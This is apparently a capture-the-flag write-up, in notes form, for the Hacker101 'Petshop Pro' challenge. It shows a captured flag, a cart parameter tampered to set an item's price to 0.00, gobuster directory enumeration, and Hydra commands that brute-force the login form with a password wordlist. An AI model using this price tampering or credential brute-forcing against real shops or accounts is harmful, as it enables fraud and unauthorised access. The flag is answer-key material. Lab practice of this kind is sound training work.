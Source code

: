 # Petshop Pro


> ^FLAG^9d7fa75997dc1d5bd17fbd5fde7e8b6e7a559582cc6d122fbb300c138dd3ddf9$FLAG$ [0]
> 
> 


---


GET /add/0 HTTP/2
Host: 124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com
Cookie: session=eyJjYXJ0IjpbXX0.ZGrpfw.gjLwMk8UqLMFQWVEa-v9Wauu7PI

---

**Changing payment so we pay 0 dollar**

cart=%5B%5B0%2C+%7B%22name%22%3A+%22Kitten%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+kitten.%22%2C+%22logo%22%3A+%22kitten.jpg%22%2C+%22price%22%3A+8.95%7D%5D%5D


cart=%5B%5B0%2C+%7B%22name%22%3A+%22Kitten%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+kitten.%22%2C+%22logo%22%3A+%22kitten.jpg%22%2C+%22price%22%3A+0.00%7D%5D%5D

---

**Finding login page through subdomains iteration with gobuster**

>>> gobuster -u https://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com/ -t 40 -w /usr/share/wordlists/common.txt
>>> https://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com

> /cart
> /login


> eyJjYXJ0IjpbMCwxXSwibW9kaWZpZWQiOnRydWV9.ZGrtBA.1Bwm8TooKTWxQybCA3XCJq-AZ78
> {"cart":[0,1],"modified":true}

---

**Brute-forcing username/password with Hydra**


>>> hydra -L /usr/share/wordlists/rockyou.txt -p idk -t 20 "" http-post-form "b02f939d67/login:username=^USER^&password=^PASS^:Invalid username" 
>>> hydra -L /usr/share/wordlists/rockyou.txt -p idk -t 64 "http-post-form://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com/login:username=^USER^&password=^PASS^:Invalid username"

>>> cat /usr/share/wordlists/rockyou.txt| grep "sandy" > sandy.txt
>>> hydra -L sandy.txt -p idk -t 20 "http-post-form://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com/login:username=^USER^&password=^PASS^:Invalid username" 

>>> https://1eedb2b48d94253d02181fb32793dca1.ctf.hacker101.com/login



